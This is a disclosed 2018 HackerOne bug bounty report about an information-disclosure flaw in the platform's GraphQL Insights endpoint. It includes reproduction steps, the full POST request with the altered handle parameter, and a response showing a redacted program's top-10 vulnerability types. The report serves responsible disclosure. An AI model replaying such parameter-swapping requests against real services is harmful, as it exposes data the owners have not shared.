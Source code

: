 # Disclosure of top 10 vulnerability types for programs that haven't enabled the Insights feature

## Report Details
- **Report ID**: 397031
- **URL**: https://hackerone.com/reports/397031
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-08-19T12:31:02.064Z
- **Disclosed**: 2018-11-07T23:50:36.131Z

## Reporter
- **Username**: tolo7010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary

Although the report count is not showing, the Insights query endpoint returns a list of top 10 vulnerability types for any programs that haven't enabled the Insights feature.

## Reproduction

1. Go to a program that has Insights feature enabled, e.g: https://hackerone.com/security/insights
2. Go to the Burp HTTP History, and then repeat the second ```(POST) /grapql``` request, see the following image:
██████████
3. Change the ```handle_0``` parameter to a program that haven't enabled the Insights feature (no Insights tab on the program page), e.g: ██████.

Request:

```
POST /graphql HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/security/insights
content-type: application/json
x-auth-token: ...
origin: https://hackerone.com
Content-Length: 1939
Cookie: ...
Connection: close

{"query":"query Insights($handle_0:String!,$last_1:Int!,$first_2:Int!,$first_3:Int!,$state_4:TeamWeaknessStates!) {\n  team(handle:$handle_0) {\n    id,\n    ...F0\n  }\n}\nfragment F0 on Team {\n  name,\n  offers_bounties,\n  hide_bounty_amounts,\n  _profile_metrics_snapshots34WPw7:profile_metrics_snapshots(last:$last_1) {\n    edges {\n      node {\n        id,\n        month,\n        year,\n        bounties_count,\n        bounties_paid\n      },\n      cursor\n    },\n    pageInfo {\n      hasNextPage,\n      hasPreviousPage\n    }\n  },\n  team_profile {\n    latest_report_created_at,\n    reports_received_in_three_months_count,\n    latest_serious_report_created_at,\n    disclosed_reports_in_last_year_count,\n    hackers_invited_all_time_count,\n    hackers_accepted_all_time_count,\n    recently_participating_hackers_count,\n    id\n  },\n  _structured_scopes2uadQf:structured_scopes(eligible_for_submission:true,first:$first_2) {\n    edges {\n      node {\n        asset_identifier,\n        eligible_for_submission,\n        low_severity_resolved_reports_count,\n        medium_severity_resolved_reports_count,\n        high_severity_resolved_reports_count,\n        critical_severity_resolved_reports_count,\n        id\n      },\n      cursor\n    },\n    pageInfo {\n      hasNextPage,\n      hasPreviousPage\n    }\n  },\n  team_display_options {\n    show_reports_resolved,\n    show_total_bounties_paid,\n    show_average_bounty,\n    id\n  },\n  _team_weaknessesE63B6:team_weaknesses(first:$first_3,state:$state_4,with_reports:true) {\n    edges {\n      node {\n        id,\n        weakness {\n          name,\n          external_id,\n          id\n        },\n        report_count,\n        state\n      },\n      cursor\n    },\n    pageInfo {\n      hasNextPage,\n      hasPreviousPage\n    }\n  },\n  id\n}","variables":{"handle_0":"███","last_1":3,"first_2":100,"first_3":10,"state_4":"enabled"}}
```

Response:

```
HTTP/1.1 200 OK
Date: Sun, 19 Aug 2018 12:24:05 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: no-cache, no-store
Content-Disposition: inline; filename="response."
X-Request-Id: 1af97dec-6e22-40c2-8483-16c4ee717d0e
Set-Cookie: ...
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Expect-CT: enforce, max-age=86400
Content-Security-Policy: default-src 'none'; base-uri 'self'; child-src www.youtube-nocookie.com b5s.hackerone-ext-content.com; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-us-west-2-production-attachments.s3-us-west-2.amazonaws.com; media-src 'self' hackerone-us-west-2-production-attachments.s3-us-west-2.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Server: cloudflare
CF-RAY: 44cc98517fe13415-HKG
Content-Length: 4736

██████████
```

Search for ```_team_weaknessesE63B6``` to see the list of top 10 vulnerability types:
{F335292}

### █████ top 10:

- Cross-site Scripting (XSS) - Stored
- Cross-site Scripting (XSS) - Reflected
- Improper Authentication - Generic
- Information Disclosure
- Server-Side Request Forgery (SSRF)
- Insecure Direct Object Reference (IDOR)
- Cross-site Scripting (XSS) - Generic
- XML External Entities (XXE)
- Open Redirect
- Privacy Violation

## Impact

Disclosure of top 10 vulnerability types for programs that haven't enabled the Insights feature

## Attachments
- 2.png
